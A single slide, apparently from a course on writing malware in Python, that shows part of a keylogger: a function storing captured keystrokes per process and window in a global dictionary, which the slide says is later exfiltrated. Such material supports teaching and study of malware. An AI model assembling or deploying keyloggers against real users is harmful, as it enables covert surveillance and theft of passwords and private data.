

Python Malwares (cont.)
Writing a Keylogger (cont.)
Next, we’ll write a function add_info, which will write the results that we capture to a global dictionary, which we will then use to exfiltrate the data:
If there’s no entry for executable_name, we initialize a new one.
...
def add_info(process_id, executable_name, window_title, key=""):
    global keylogger_result
    # if executable_name does not exist, then we create a new one.
    if(keylogger_result.get(executable_name) == None):
        keylogger_result.update({
            executable_name: {
                window_title : {
                    "process_id": process_id,
                    "keys": key
                }
            }
        })
    ...
132